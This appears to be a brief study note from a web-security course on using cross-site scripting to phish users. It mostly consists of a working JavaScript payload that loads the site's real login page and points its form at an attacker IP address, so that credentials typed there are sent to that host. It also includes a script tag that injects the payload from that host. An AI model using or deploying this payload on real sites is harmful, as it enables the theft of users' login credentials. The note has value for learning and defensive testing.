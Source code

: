 ```yaml
---
tags:
- xss
---
```


# Phishing Users

How use external payload see here: [[2023042721181010 XSS external JS payload]]
Show user an origin login page, but action change on an attacker machine . 
## Payload
```js
fetch("login").then(res => res.text().then(data => {
	document.getElementsByTagName("html")[0].innerHTML = data;
	document.getElementsByTagName("form")[0].action = "http://192.168.49.55";
	document.getElementsByTagName("form")[0].method = "get";
}))
```

## Inject payload 
```html
<script src='http://192.168.49.55/xss.js'></script>
```

## Example:

## References
1. web200.Cross-Site Scripting Exploitation and Case Study.Phishing Users
2. 
